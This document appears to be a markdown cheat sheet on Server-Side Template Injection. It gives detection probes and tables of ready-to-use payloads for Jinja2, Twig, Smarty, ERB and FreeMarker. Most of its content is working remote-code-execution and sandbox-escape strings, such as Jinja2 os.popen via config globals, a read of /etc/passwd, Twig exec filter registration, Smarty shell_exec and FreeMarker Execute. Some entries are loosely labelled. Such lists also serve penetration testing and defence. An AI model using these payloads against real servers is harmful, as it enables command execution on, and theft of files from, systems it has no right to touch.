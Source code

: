 ```mermaid
sequenceDiagram
    participant A as Attacker
    participant B as Web Server
    participant C as Template Engine
    participant U as User

    A->>B: 1. Sends SSTI Payload
    B->>C: 2. Passes Input to Template Engine
    C-->>B: 3. Executes Template Code with Payload
    B-->>U: 4. Sends Response with Rendered Output
```

### **Introduction**

Server-Side Template Injection (SSTI) is a vulnerability that accurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. SSTI can lead to Remote Code Execution (RCE) on the server.

### **Detection Techniques**

| Technique | Description |
| --- | --- |
| Fuzzing the Template | Inject special characters (e.g., `${{<%[%'"}}%\)` into the template and analyze differences in server responses compared to regular data. |
| Error Responses | Look for thrown errors that reveal the vulnerability and potentially identify the template engine. |
| Reflection Analysis | Check if the payload is absent in the reflection, or parts of it are missing, implying the server processes it differently than regular data. |
| Plaintext Context | Verify if the server evaluates template expressions (e.g., `{{7*7}}`, `${7*7}`) to distinguish from XSS. |

### **Jinja2 (Python)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `{{7*7}}` | Returns 49 |
| RCE Example | `{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}` | Output of ls command |
| Sandbox Escape | `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}` | Content of /etc/passwd |

### **Twig (PHP)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `{{7*7}}` | Returns 49 |
| RCE Example | `{{ dump(app.request.server.all) }}` | Dumps server variables |
| Sandbox Escape | `{{ _self.env.registerUndefinedFilterCallback("exec") }}{{ _self.env.getFilter("id") }}` | Executes id command |

### **Smarty (PHP)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `{math equation="x * y" x=7 y=7}` | Returns 49 |
| RCE Example | `{php}echo shell_exec('ls'){/php}` | Output of ls command |
| Sandbox Escape | `{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME, $exploit_code, $smarty)};` | Writes and executes exploit code |

### **ERB (Ruby)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `<%= 7 * 7 %>` | Returns 49 |
| RCE Example | `<%= system('ls') %>` | Output of ls command |
| Sandbox Escape | Not typically sandboxed, but depends on configuration | N/A |

### **FreeMarker (Java)**

| Description | Code | Output |
| --- | --- | --- |
| Payload | `${7*7}` | Returns 49 |
| RCE Example | `${"freemarker.template.utility.Execute"?new()("id")}` | Output of id command |
| Sandbox Escape | `${product.getClass().getDeclaredMethods()[0].invoke(product, null)}` | Invokes method on product |